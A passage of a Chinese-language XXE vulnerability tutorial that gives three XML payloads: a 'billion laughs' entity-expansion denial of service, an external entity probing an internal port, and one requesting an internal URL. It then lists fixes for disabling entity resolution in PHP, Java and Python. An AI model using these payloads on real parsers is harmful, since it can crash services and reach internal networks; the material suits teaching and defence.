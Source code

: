 ## 3.1 拒绝服务攻击

~~~xml
<?xml version="1.0"?> <!DOCTYPE lolz [ <!ENTITY lol "lol"> 
<!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;"> 
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;"> 
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;"> 
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;"> 
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;"> 
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;"> 
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;"> 
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;"> ]> 
<lolz>&lol9;</lolz>
~~~

## 3.2 探测内网端口

~~~xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [ 
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "http://127.0.0.1:80" >]>
<root>
	<name>&xxe;</name>
</root>
~~~

## 3.3 攻击内网网站

~~~xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [ 
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "http://127.0.0.1:80/payload" >]>
<root>
	<name>&xxe;</name>
</root>
~~~

# 4. 修复建议

1. 使用开发语言提供的禁用外部实体的方法

   ~~~shell
   PHP：
   libxml_disable_entity_loader(true);
   JAVA:
   DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance(); dbf.setExpandEntityReferences(false);
   Python：
   from lxml import etree xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
   ~~~
